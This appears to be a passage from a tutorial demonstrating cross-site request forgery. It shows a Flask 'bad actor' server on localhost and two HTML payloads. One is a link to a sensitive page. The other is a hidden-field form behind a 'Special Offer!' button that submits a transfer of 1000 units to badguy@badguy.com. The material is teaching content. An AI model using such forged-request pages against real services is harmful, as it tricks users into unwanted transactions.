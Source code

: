 ```javascript
		console.log(m);
		res.send(m);
	}
});

app.listen(5000, function() {
	console.log('Server is live and listening on 5000');
});
```

## Simulating a Bad-actor's server (running on localhost)
Below is the server that a bad actor might run. Note that it is running on a different origin compared to yourcriticalservice:
```python
import flask
import os
import requests

app = flask.Flask(__name__)

@app.route('/bget', methods=['GET'])
def servebget():
    return flask.render_template('bget.html')

@app.route('/bpost', methods=['GET'])
def servebpost():
    return flask.render_template('bpost.html')

app.run(host='localhost', port=8000, debug=True)
```


Below are the links that you, the user of yourcriticalservice would be directed to interact with:

`bget.html`:
```
<html>
	<a href="http://yourcriticalservice.com:5000/sensitivepage">Click me</a>
</html>
```

`bpost.html`:
```
<html>
	<body>
		<form action="http://yourcriticalservice:5000/sensitiveform", method="POST">
			<input name="units" type="hidden" value="1000"/>
			<input name="recipient" type="hidden" value="badguy@badguy.com">
			<button type="submit" value="submit">Special Offer!</button>
		</form>
	</body>
</html>
```
